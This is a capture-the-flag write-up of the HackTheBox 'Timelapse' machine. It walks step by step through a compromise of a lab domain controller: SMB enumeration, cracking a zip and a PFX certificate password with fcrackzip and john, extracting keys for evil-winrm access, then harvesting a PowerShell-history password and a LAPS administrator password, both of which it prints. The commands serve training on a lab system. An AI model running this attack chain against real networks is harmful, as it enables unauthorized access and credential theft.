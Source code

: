 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.11.152 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/1.png">

From the looks of it we can tell it's a domain controller. Lot's of open ports to investigate.

# Enumeration
Normally a domain controller has great enumeration potential. We can use tools like ```smbclient, enum4linux, smbmap, nbtscan, rpcclient``` and there are numerous ```impacket``` scripts available.

Using ```rpcclient``` we see what privileges the current users has.
```
rpcclient -U '' -N 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/5.png">

Unfortunately ```enumdomusers``` is not allowed. At this point is just trial and error running different commands. Let's leave it for now.

After doing some more enumeration we find a share at ```Shares``` containing some files. 
```
smbclient -N -L //10.10.11.152/
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/2.png">



# Initial Foothold
Extracting the zipfile requires a password. We can use ```7z``` to get more information on the zipfile and it's encryption.

```
7z l -slt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/3.png">


We can try to crack the password using ```john``` or ```fcrackzip```. In this case i chose the latter.

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/4.png">


We have cracked the password and can now extract ```legacyy_dev_auth.pfx```.

A PFX file indicates a certificate in PKCS#12 format; it contains the certificate, the intermediate authority certificate necessary for the trustworthiness of the certificate, and the private key to the certificate. Think of it as an archive that stores everything you need to deploy a certificate.

I had to update ```john``` in order to have ```pfx2john``` available and run the following command to create a suitable hash for ```john```.

```
pfx2john legacy_dev_auth.pfx > hash
```

And pass it along to john:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash    
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/6.png">

We have cracked the password using the rockyou wordlist. I found [documentation](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) how one could extract the private key and certificate from a pfx file.

Extract the private key:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacy.key -nodes  
``` 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/7.png">

And we do the same to extract the certificate:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.crt 
```

After this we alter the files by removing the header so we are only left with the key itself. We can now continue by using the keys to connect to the target with ```evil-winrm``` .

```
evil-winrm -S -k legacy.key -c legacy.crt -i 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/8.png">

# Lateral Movement
We are unable to use ```winPEAS``` because Microsoft Defender is blocking the file. Using an obfuscated version didn't help either. After further enumerating the host for the usual ways for privilege escalation i was unable to find anything useful. I got some help pointing me in the right direction and found the Powershell history file:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/9.png">

We found the password for the ```svc_deploy``` account and can use this to run commands as the this user.

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```

And we can check for privileges:
```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /priv}

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/10.png">


# Privilege Escalation
We see that this user is member of the ```LAPS_Readers``` group which is useful to us because we can probably extract the local administrator password. We can check for this by using the ```AD-Module```.

```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/11.png">

Now that we've found the password we can again use ```evil-winrm``` to connect to the target as ```administrator```.

```
evil-winrm -i 10.10.11.152 -u administrator -p '6yHTPR#s417Lo6/7kC{aP!WC' 
```






